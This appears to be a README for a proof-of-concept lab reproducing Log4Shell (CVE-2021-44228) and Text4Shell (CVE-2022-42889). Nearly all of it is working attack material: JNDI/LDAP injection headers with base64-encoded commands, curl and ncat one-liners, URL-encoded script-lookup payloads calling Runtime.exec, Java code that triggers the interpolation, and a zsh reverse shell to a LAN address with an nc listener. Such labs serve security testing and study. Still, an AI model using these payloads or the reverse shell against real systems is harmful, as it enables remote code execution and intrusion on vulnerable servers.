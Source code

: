 # log4j - CVE-2021-44228

[medium link](https://medium.com/geekculture/log4j-vulnerability-in-detail-and-the-bigger-picture-db49f749009)  
[explanation 1](https://www.whitesourcesoftware.com/resources/blog/log4j-vulnerability-cve-2021-44228/)  
[explanation 2](https://github.com/EpicCoffee/log4j-vulnerability)  
[checkpoint](https://blog.checkpoint.com/2021/12/14/a-deep-dive-into-a-real-life-log4j-exploitation/)  

## commands  
`GET / HTTP/1.1 localhost:8080 Header-Attribute: ${jndi:ldap://localhost:8080/Basic/Command/Base64/Y2FsYw==}`  
`echo "GET http://localhost:8080/Basic/Command/Base64/Y2FsYw==" | ncat.exe localhost 8080`  
`echo "GET / HTTP/1.1 localhost:8080 Header-Attribute: ${jndi:ldap://localhost:8080/Basic/Command/Base64/Y2FsYw==}" | ncat.exe localhost 8080`  
`echo "GET localhost:8080 Header-Attribute:`${jndi:ldap://localhost:8080/Basic/Command/Base64/Y2FsYw==}" | ncat.exe localhost 8080`  
`curl.exe --header "Header-Attribute:'${jndi:ldap://localhost:8080/Basic/Command/Base64/Y2FsYw==}" http://localhost:8080`  
## payload examples
```
// 127.0.0.1:10389
// ${jndi:ldap://localhost:88/a}
// ${jndi:ldap://127.0.0.1:10389/o=reference}
// ${jndi:ldap://localhost:8080/Basic/Command/Base64/cG93ZXJzaGVsbCBjYWxj}
// ${jndi:ldap://localhost:8080/Basic/Command/Base64/Y2FsYw==}
// ${jndi:ldap://localhost:8080/cG93ZXJzaGVsbCBjYWxj}
```

# text4Shell - CVE-2022-42889

[Online Base64 encoder](https://www.base64encode.org)  

## commands
`curl.exe --header "Header-Attribute:'%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27calc%27%29%7" http://localhost:8080`  
`curl.exe --header "Header-Attribute:'${script:javascript:java.lang.Runtime.getRuntime().exec('calc')}'"`  
`http://localhost:8080/text4Shell/%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22calc%22%29%7D`  
`http://localhost:8080/text4Shell2?payload=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22calc%22%29%7D`  
`http://localhost:8080/text4Shell/%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27calc%27%29%7D`  
`http://localhost:8080/text4Shell/%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.get.Runtime%28%29.exec%28%5C%27%27%2E%74%72%69%6D%28%24%63%6D%64%29%2E%27%5C%27%29%7D`  
`certutil.exe -encode .\payload.txt .\payload.enc`  

`http://localhost:8080/text4Shell2/%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('touch%20test')%7D`  
`$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ping%20-c%205%20172.17.0.1%27)%7D`  
++
`http://localhost:8080/text4Shell2/$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27ping%20-c%205%20192.168.178.1%27)%7D`  
`http://localhost:8080/text4Shell2/$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec('touch%20test')%7D`

## codes
```
		StringSubstitutor stringSubstitutor0 = StringSubstitutor.createInterpolator();
		stringSubstitutor0.replace("${script:javascript:java.lang.Runtime.getRuntime().exec('touch ttt')}");

// 		not worked now
		String planC = StringLookupFactory.INSTANCE.scriptStringLookup()
				.lookup("${script:javascript:java.lang.Runtime.getRuntime().exec('ls')}");

		StringSubstitutor stringSubstitutor = StringSubstitutor.createInterpolator();
		stringSubstitutor.replace("${script:javascript:1 + 1}");

		StringSubstitutor stringSubstitutor2 = StringSubstitutor.createInterpolator();
		stringSubstitutor2.replace("${dns:address|localhost:8080}");

```

# reverse shells

[reverse shell generator](https://www.revshells.com)  

## shell
`zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.178.37 9001 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'`  
## listener
`nc -lvn 9001`  

# RUN
Important: use original java 11 version  
`~/java_env/maven/bin/mvn clean package`  
`~/java_env/jdk-21.jdk/Contents/Home/bin/java -jar target/tech.cybersword.poc.log4j.text4shell-0.0.1-SNAPSHOT.jar` 